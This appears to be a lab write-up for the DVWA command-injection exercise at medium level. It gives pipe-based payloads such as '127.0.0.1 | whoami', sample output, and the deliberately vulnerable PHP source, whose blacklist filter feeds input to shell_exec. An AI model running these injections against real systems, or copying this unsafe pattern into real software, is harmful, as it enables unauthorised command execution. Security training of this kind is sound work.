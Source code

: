 # Command Injection - Medium

## Attack Steps

1. **Open the DVWA Command Injection page**  
   Navigate to:
http://localhost/dvwa/vulnerabilities/exec
 
2. **Enter the payload** in the input field:  
```bash
8.8.8.8 | dir
```

3. Click the **Submit** button.

4. Observe the output You should see the ping results followed by the directory listing from the DVWA server, for example:

    ```bash 
    Volume in drive C has no label.
    Volume Serial Number is XXXX-XXXX

    Directory of C:\xampp\htdocs\DVWA\vulnerabilities\exec

    01/01/2025  10:00 AM    <DIR>          .
    01/01/2025  10:00 AM    <DIR>          ..
               0 File(s)              0 bytes
    ```

## Vulnerable Code Analysis

### File:
`C:\xampp\htdocs\DVWA\vulnerabilities\exec\source\medium.php`

#### Key Vulnerability Points:

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$target = $_REQUEST[ 'ip' ];

	// Set blacklist
	$substitutions = array(
		'&&' => '',
		';'  => '',
	);

	// Remove any of the characters in the array (blacklist).
	$target = str_replace( array_keys( $substitutions ), $substitutions, $target );

	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
	$html .= "<pre>{$cmd}</pre>";
}

?>
```

### Explanation
- The script processes user-submitted input (ip) and executes a system ping command:
- Only `&&` and `;` are blacklisted prevent command concatenation
- This can be exploited using a payload such as:  
    ```
    127.0.0.1 | whoami
    ```  
    - The command executed by the server becomes:  
      ```
      ping -c 3 127.0.0.1 | whoami
      ```  
    - Ping will still be run but only the output of the `whoami` command will be printed
- Causes:  
    - There was only basic blacklisting of 2 operators 
    - Still allows direct insertion of user input into a shell command, so payloads utilising piping can be injected
    - Not using safe functions like `escapeshellarg()` means special characters are interpreted by the shell.  
